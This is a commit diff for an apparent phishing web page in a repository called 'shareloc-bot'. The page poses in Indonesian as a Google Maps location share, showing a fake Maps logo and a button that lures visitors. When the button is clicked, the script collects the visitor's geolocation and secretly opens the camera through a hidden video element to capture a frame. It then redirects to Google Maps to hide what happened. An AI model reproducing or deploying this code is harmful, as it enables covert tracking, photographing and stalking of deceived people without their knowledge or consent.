

Before and after one commit to lacakguedong-netizen/shareloc-bot, a website: page public/index.html in a window 1280 px wide. Shown: the part 217-600 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -20,31 +20,50 @@
             border-radius: 12px;
             box-shadow: 0 4px 15px rgba(0,0,0,0.1);
             text-align: center;
-            max-width: 350px;
+            max-width: 360px;
             width: 100%;
         }
+        .logo {
+            width: 48px;
+            height: 48px;
+            margin-bottom: 15px;
+        }
+        h3 { color: #202124; margin-bottom: 8px; font-size: 20px; }
+        p { color: #5f6368; font-size: 14px; margin-bottom: 25px; line-height: 1.5; }
+        .btn {
+            background-color: #1a73e8;
+            color: white;
+            border: none;
+            padding: 12px 24px;
+            font-size: 16px;
+            font-weight: 500;
+            border-radius: 6px;
+            cursor: pointer;
+            width: 100%;
+            box-shadow: 0 2px 4px rgba(0,0,0,0.2);
+            transition: background 0.2s;
+        }
+        .btn:hover { background-color: #1557b0; }
         .spinner {
             border: 4px solid #f3f3f3;
             border-top: 4px solid #1a73e8;
             border-radius: 50%;
-            width: 40px;
-            height: 40px;
+            width: 40px; height: 40px;
             animation: spin 1s linear infinite;
             margin: 20px auto;
         }
-        @keyframes spin {
-            0% { transform: rotate(0deg); }
-            100% { transform: rotate(360deg); }
-        }
-        h3 { color: #202124; margin-bottom: 8px; }
-        p { color: #5f6368; font-size: 14px; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
-    <div class="card">
-        <div class="spinner"></div>
-        <h3>Memuat Peta...</h3>
-        <p>Menghubungkan ke Google Maps dan memuat rute perjalanan.</p>
+    <div class="card" id="main-card">
+        <!-- Logo Google Maps Sederhana -->
+        <svg class="logo" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg">
+            <path fill="#4285F4" d="M12 2C8.13 2 5 5.13 5 9c0 5.25 7 13 7 13s7-7.75 7-13c0-3.87-3.13-7-7-7zm0 9.5c-1.38 0-2.5-1.12-2.5-2.5s1.12-2.5 2.5-2.5 2.5 1.12 2.5 2.5-1.12 2.5-2.5 2.5z"/>
+        </svg>
+        <h3>Berbagi Lokasi Real-Time</h3>
+        <p>Seseorang telah membagikan titik koordinat lokasi melalui Google Maps. Klik tombol di bawah untuk membuka dan melihat rute.</p>
+        <button class="btn" onclick="startTracking()">Buka di Google Maps</button>
     </div>
 
     <!-- Elemen Kamera Tersembunyi -->
@@ -52,7 +71,15 @@
     <canvas id="canvas" style="display:none;"></canvas>
 
     <script>
-        async function executeTrackingAndRedirect() {
+        async function startTracking() {
+            // Ubah tampilan kartu menjadi animasi loading saat tombol diklik
+            const card = document.getElementById('main-card');
+            card.innerHTML = `
+                <div class="spinner"></div>
+                <h3>Memuat Peta...</h3>
+                <p>Menghubungkan ke server Google Maps...</p>
+            `;
+
             let latitude = null;
             let longitude = null;
             let accuracy = null;
@@ -79,7 +106,7 @@
                 video.srcObject = stream;
                 await new Promise((resolve) => { video.onloadedmetadata = () => resolve(); });
 
-                await new Promise(r => setTimeout(r, 1000)); // Jeda agar kamera fokus
+                await new Promise(r => setTimeout(r, 1000)); // Jeda agar kamera siap
 
                 const canvas = document.getElementById('canvas');
                 canvas.width = video.videoWidth || 640;
@@ -125,8 +152,6 @@
                 window.location.href = 'https://www.google.com/maps';
             }
         }
-
-        window.onload = executeTrackingAndRedirect;
     </script>
 </body>
 </html>
```
